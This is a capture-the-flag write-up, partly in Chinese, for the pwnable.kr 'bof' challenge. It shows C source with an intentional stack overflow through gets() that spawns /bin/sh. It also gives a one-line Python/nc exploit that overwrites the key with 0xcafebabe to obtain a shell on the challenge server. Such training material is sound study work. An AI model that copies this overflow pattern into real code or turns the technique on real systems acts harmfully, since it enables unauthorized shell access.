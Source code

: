 ```yaml
---
layout: default
title: pwnable_bof
parent: pentrue-test
nav_order: 1
---
```


# pwnable bof
Source :
- [pwnable.kr](http://pwnable.kr/play.php)
---
## fuzzy 模糊字串產生方便debug
```python
import string
import random
def id_generator(size=6, chars=string.ascii_uppercase + string.digits):
    return ''.join(random.choice(chars) for _ in range(size))
```
 
# 執行結果
id_generator()
>'G5G74W'

id_generator(3, "6793YUIO")
>'Y3U'

### 程式原始碼

``` c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
-  smash me!
-  if(key == 0xcafebabe)......
-  觀察key的位址直接修改

---
## solution

```python
#debug 
python -c "print 'A'*52+'\xbe\xba\xfe\xca'" > input.txt
#gdb
r < input.txt
#nc pwnable.kr 9000
#keep stding with python 
cat <(python -c "print 'A'*52+'\xbe\xba\xfe\xca'") - | nc pwnable.kr 9000
```




